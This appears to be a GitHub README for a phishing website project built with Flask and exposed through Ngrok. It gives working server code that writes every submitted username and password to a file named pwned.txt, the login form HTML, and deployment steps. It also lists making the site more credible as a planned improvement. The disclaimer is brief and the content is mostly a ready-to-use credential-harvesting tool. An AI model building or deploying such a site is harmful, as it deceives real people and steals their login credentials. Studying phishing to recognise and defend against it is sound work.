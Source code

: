 # Project: Building a phishing website using Flask and Ngrok

## Overview
This repository contains a Flask-based website that implements a simple login functionality. The website allows users to submit login credentials through a web interface and processes the data on the backend. The website is deployed online using Ngrok. This project serves as an example on how to gather user information through a malicious web page login form that saves user data into a local text file.

## Features
- **Frontend:** A simple HTML interface for user login.
- **Backend:** Flask website handling routing and processing login credentials.
- **Logging:** Captures and stores submitted login credentials in a local file (`pwned.txt`).
- **Deployment:** Uses Ngrok to expose the Flask website to the internet.

---

## Project Structure
```
project-directory/
├── static/          # CSS, JavaScript, and other static files
├── templates/       # HTML files (index.html, login.html)
├── server.py        # Main Flask website
├── pwned.txt        # File for logging submitted credentials
└── README.md        # Documentation
```

### File Details
- **`index.html`**: The main landing page for the website.
- **`login.html`**: Contains the login form where users can enter their credentials.
- **`server.py`**: Python script for:
  - Rendering the HTML pages.
  - Handling login form submissions.
  - Writing submitted credentials to `pwned.txt`.
- **`pwned.txt`**: Stores the username and password entries submitted by users.

---

## Setup and Installation

### Prerequisites
- Python (3.12 or above)
- Ngrok (to expose the Flask app online)

### Steps
1. Clone the repository:
   ```bash
   git clone [https://github.com/your-repo-url.git](https://github.com/elvishaveriku/Phishing_Website_Project.git)
   cd phishing_website_project
   ```

2. Install the required Python packages:
   ```bash
   pip install flask
   ```

3. Run the Flask website:
   ```bash
   python server.py
   ```

4. Start Ngrok to expose the website:
   ```bash
   ngrok http 5000
   ```
   Copy the public URL generated by Ngrok.

6. Access the website in your browser using the Ngrok URL.

---

## Code Highlights

### Flask Routes
- **Index Route (`/`)**:
  Serves the `index.html` page.
  ```python
  @app.route('/')
  def index():
      return render_template('index.html')
  ```

- **Login Page (`/login.html`)**:
  Serves the `login.html` page.
  ```python
  @app.route('/login.html')
  def login():
      return render_template('login.html')
  ```

- **Login Submission (`/login`)**:
  Handles the login form submission and logs credentials.
  ```python
  @app.route('/login', methods=['POST'])
  def handle_login():
      username = request.form.get('username')
      password = request.form.get('password')

      with open('pwned.txt', 'a') as file:
          file.write(f"Username: {username}, Password: {password}\n")

      if username == 'admin' and password == 'password123':
          return jsonify({'message': 'Login successful!'}), 200
      else:
          return jsonify({'message': 'Invalid credentials.'}), 400
  ```
  
---

## Frontend Implementation

### HTML Structure
The frontend consists of two HTML pages: `index.html` and `login.html`. Both are located in the `templates/` directory.

#### `index.html`
A simple landing page with navigation links.
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Home Page</title>
</head>
<body>
    <header>
        <h1>Welcome to the Web App</h1>
    </header>
    <nav>
        <ul>
            <li><a href="/">Home</a></li>
            <li><a href="/login.html">Login</a></li>
        </ul>
    </nav>
</body>
</html>
```

#### `login.html`
A form for users to submit login credentials.
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login Page</title>
</head>
<body>
    <header>
        <h1>Login</h1>
    </header>
    <main>
        <form id="loginForm" action="/login" method="POST">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" required>
            <br>
            <label for="password">Password:</label>
            <input type="password" id="password" name="password" required>
            <br>
            <button type="submit">Login</button>
        </form>
    </main>
</body>
</html>
```

---

## Ethical Considerations
Logging sensitive user information is for demonstration purposes only. Do not deploy such functionality in production without proper security measures, including encryption and user consent.

---

## Future Improvements
- Increasing the credibility of the website

---

## Author
[Elvis Haveriku] - Cybersecurity enthusiast and passionate about web technologies and Python programming.

